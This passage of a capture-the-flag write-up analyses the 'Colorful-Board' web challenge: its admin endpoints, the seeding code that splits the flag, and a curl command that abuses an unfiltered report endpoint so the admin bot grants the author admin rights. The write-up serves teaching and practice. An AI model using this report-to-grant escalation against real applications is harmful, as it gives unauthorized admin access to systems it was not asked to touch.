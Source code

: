   - `GET /admin/notice/:id` - Only Admin

- `user.controller.ts` which is responsible for the user profile and the user data, it has no endpoints just utilities used across the app

Those are the endpoints with functionalities, we will dive in details in what we needs when times come.

Now before we start diving into exploiting it, we need to answer few questions, where is the flag? what else is running in the application?

Looking at the sources files we have `init-data.js`
```js
// ...
const init_db = async () => {
    await db.users.insertMany([
        { username: "DEAD{THIS_IS_", password: "dummy", personalColor: "#000000", isAdmin: true },
    ]);
    await delay(randomDelay());
    await db.notices.insertOne({ title: "asdf", content: "asdf" });
    await delay(randomDelay());
    await db.notices.insertOne({ title: "flag", content: "FAKE_FLAG}" });
    await delay(randomDelay());
    await db.notices.insertOne({ title: "qwer", content: "qwer" });
}
init_db();
// ..
```

Interesting, part of the flag is part of the admin's username and the other part is part of the notices, moreover there is no way in the application to expose someone's username if he didn't post anything, and for the second part we need to know the notice id to access it, because the `GET /admin/notice/` doesn't show the Notice ID if it includes "flag" in the title, Finally we need to be an admin to access the notices.
```js
@Get('/notice')
    @UseGuards(AdminGuard) // Only Admin
    @Render('notice-main')
    async renderAllNotice() {
        const notices = await this.adminService.getAllNotice();
        return { notices: notices.filter(notice => !notice.title.includes("flag")) }; // Fun!
    }
```

- Becoming Admin 

A lot of work to do, let's split the steps first thing first, we need to be an admin, after spending hours in the code looking for what could work and what couldn't, we can call the `GET /admin/grant?username` through the `GET /admin/report` endpoin because it has no restrictions or filters.

```sh
➜  Colorful-Board curl 'https://eb7655042aed5ebaba63a259.deadsec.quest/admin/report?url=http://127.0.0.1:1337/admin/grant?username=oz' -H "Cookie: $cookie"
{"status":200,"message":"Reported."}
```
